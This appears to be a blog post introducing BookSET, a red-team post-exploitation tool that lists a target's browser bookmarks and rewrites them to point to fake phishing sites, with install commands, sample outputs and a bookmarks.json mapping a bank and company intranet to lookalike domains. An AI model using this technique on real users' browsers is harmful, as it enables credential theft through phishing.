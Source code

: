 ```yaml
---
layout: single
title: BookSET - a simple Post-Exploitation Tool
excerpt: #"This scam was funn to found"
date: 2023-03-10
classes: wide
header:
  teaser: /assets/images/bookset/banner.png
  teaser_home_page: true
  icon: #/assets/images/hackthebox.webp
categories:
  - Infosec
tags:  
  - tools
  - redteam
  - post-exploitation
---
```


It's been a while since I didn't dare to create something and this time I bring you this tool that I think can add an interesting result to all those tests that we have as a red team for different companies.

Sometimes when we execute red team exercises, even after having achieved access to a certain level, we need to go a little further, such as obtaining user access credentials and that is why I have thought of this tool.

![](/assets/images/bookset/banner.png)


BookSET - is intended to be able to modify BookMarks mainly for Google Chrome, but tests were done on Edge and Brave Browsers, remember that this script can be used to capture some credentials with Phishing sites or just redirect the "victim" to your EvilServer.

# 🔴: How it works!

Lets clone the repository and install some libraries:

```bash
git clone https://github.com/edwardosorio/BookSET.git

cd BookSET

pip install -r requirements.txt

```
thats it :D !!


## Help !

if you need to know the parameters from the script, pls type:

```bash
python bookSET.py -h


 ____              _     ____  _____ _____
| __ )  ___   ___ | | __/ ___|| ____|_   _|
|  _ \ / _ \ / _ \| |/ /\___ \|  _|   | |
| |_) | (_) | (_) |   <  ___) | |___  | |
|____/ \___/ \___/|_|\_\|____/|_____| |_|


[ just a simple post-exploitation tool :) by _mrpack ]

usage: bookSET.py [-h] [-recon] [-replace]

Get and Replace all Urls from Google Chrome BookMarks

optional arguments:
  -h, --help  show this help message and exit
  -recon      Get all URLs Bookmarks
  -replace    Replace URLs Bookmarks


```


## [+] Recon Mode 

If you want to know what BookMarks the target has, then we just need to execute the following command line:

```bash
python bookSET.py -recon

```

and the output should be something like this:

```bash

 ____              _     ____  _____ _____
| __ )  ___   ___ | | __/ ___|| ____|_   _|
|  _ \ / _ \ / _ \| |/ /\___ \|  _|   | |
| |_) | (_) | (_) |   <  ___) | |___  | |
|____/ \___/ \___/|_|\_\|____/|_____| |_|


[ just a simple post-exploitation tool :) by _mrpack ]

[+] Getting Urls from BookMarks:
 
 - https://www.facebook.com
 - https://www.bank.com
 - https://www.twitter.com
 - https://www.instagram.com
 - https://intranet.companie.org

[+] Total of BookMarks identified : [5]

```

## [+] Replace Mode

Now that we know all the BookMark that the target has, we can check all the URLs and just make a "fake website"  for each URL that we want ;) :

```bash
python bookSET.py -replace

```

and the output should be something like this:

```bash

 ____              _     ____  _____ _____
| __ )  ___   ___ | | __/ ___|| ____|_   _|
|  _ \ / _ \ / _ \| |/ /\___ \|  _|   | |
| |_) | (_) | (_) |   <  ___) | |___  | |
|____/ \___/ \___/|_|\_\|____/|_____| |_|


[ just a simple post-exploitation tool :) by _mrpack ]

[+] URLs modified:

     [-] https://www.fakebank.com/
     [-] https://intranet.fakecompanie.org/

[+] Total of BookMarks replaced : [2]
Chrome it's running !!

[+] Chrome was Closed !
...
...
...
...
[+] Opening Chrome !

[+] Done !!

```
once the script finished we can check all the changes.

![](/assets/images/bookset/bank.png) ![](/assets/images/bookset/intranetcompanie.png)

## [+] bookmarks.json file content

The content of "bookmarks.json" it's easy to understand, the "current_url" it's the URL that we want to change and replace it with "new_url" instead.

```bash

{
    "bookmark_bar": [
      {
        "current_url": "https://www.bank.com/",
        "new_url": "https://www.fakebank.com/"
      },
      {
        "current_url": "https://intranet.companie.org/",
        "new_url": "https://intranet.fakecompanie.org/"
      }
    ]
  }
  
  ```

NOTE: This script was tested for the following Web Browsers:

- Google Chrome
- Edge
- Brave

You just need to change the Browser Path
